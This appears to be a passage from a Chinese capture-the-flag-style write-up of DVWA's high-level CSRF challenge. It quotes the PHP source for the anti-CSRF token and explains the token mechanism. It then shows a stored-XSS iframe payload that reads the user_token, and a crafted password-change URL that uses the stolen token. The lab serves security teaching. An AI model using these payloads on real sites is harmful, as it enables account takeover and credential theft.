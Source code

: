 ``` php
​    $return_message = "Passwords did not match.";
  }

  mysqli_close($GLOBALS["___mysqli_ston"]);

  if ($request_type == "json") {
    generateSessionToken();
    header ("Content-Type: application/json");
    print json_encode (array("Message" =>$return_message));
    exit;
  } else {
    echo "<pre>" . $return_message . "</pre>";
  }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

多了个**user_token**

>  CSRF token机制，用户每次访问改密页面时，服务器都会返回一个随机的token，当浏览器向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。

需要用到存储型XSS，这个界面就有XSS

![image-20250510203601545](images/image-20250510203601545.png)

有字数限制，先改字数，再上传

![image-20250510204114263](images/image-20250510204114263.png)

 ```js
 <iframe src="http://127.0.0.1/DVWA/vulnerabilities/csrf/index.php"onload=alert(frames[0].document.getElementsByName('user_token')[0].value)></iframe>
 ```

会弹出它的**user_token**

获得user_token后再用上面的方法

```
http://127.0.0.1/DVWA/vulnerabilities/csrf/index.php?password_new=1&password_conf=1&Change=Change&user_token=ee164777d981c0d56060b22569c6b81f#
```


























